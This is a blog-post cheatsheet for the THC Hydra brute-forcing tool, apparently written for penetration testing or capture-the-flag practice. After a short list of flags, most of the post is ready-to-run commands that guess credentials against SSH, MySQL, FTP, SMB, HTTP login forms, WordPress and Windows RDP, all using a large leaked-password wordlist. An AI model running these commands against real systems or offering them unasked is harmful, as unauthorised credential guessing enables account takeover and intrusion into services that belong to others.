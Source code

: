 ```yaml
---
layout: post
title: THC Hydra Cheatsheet
summary: A cheatsheet for the THC Hydra bruteforcing tool. THC Hydra is a tool developped by van Hauser / THC for bruteforcing credentials on multiple protocols.
date: 2020-07-24
author: Noxtal
categories: cheatsheets
thumbnail:  hydra
tags:
 - cheatsheet
 - hydra
 - bruteforce
 - attack
---
```


A cheatsheet for the THC Hydra bruteforcing tool. THC Hydra is a tool developped by van Hauser / THC for bruteforcing credentials on multiple protocols.

-----

- [Cheatsheet](#cheatsheet)
  - [Basic Usage](#basic-usage)
    - [Syntax](#syntax)
    - [Useful flags](#useful-flags)
  - [SSH](#ssh)
  - [MySQL](#mysql)
  - [FTP](#ftp)
  - [SMB](#smb)
  - [HTTP Post Form](#http-post-form)
  - [Wordpress](#wordpress)
  - [Windows RDP](#windows-rdp)

# Cheatsheet
## Basic Usage
### Syntax 

`hydra [OPTIONS] IP`

### Useful flags
- `-h`: see the help menu
- `-l <LOGIN>`: Pass single username/login
- `-L <FILE>`: Pass multiple usernames/logins 
- `-p <LOGIN>`: Pass single known password
- `-P <FILE>`: Pass a password list or wordlist (ex.: `rockyou.txt`)
- `-s <PORT>`: Use custom port
- `-f`: Exit as soon as at least one a login and a password combination is found
- `-R`: Restore previous session (if crashed/aborted)

## SSH
Bruteforce SSH credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh
```
(use `-s` for custom port)

## MySQL
Bruteforce MySQL credentials
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP mysql
```
(use `-s` for custom port)

## FTP
Bruteforce FTP credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP ftp
```
(use `-s` for custom port)

## SMB
Bruteforce SMB credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP smb
```
(use `-s` for custom port)

## HTTP Post Form
Bruteforce web HTTP form 
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```
(use `-s` for custom port)

Ex.:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"
```

## Wordpress
Bruteforce WordPress credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
(use `-s` for custom port)

## Windows RDP
Bruteforce Windows Remote Desktop credentials
```bash
hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
```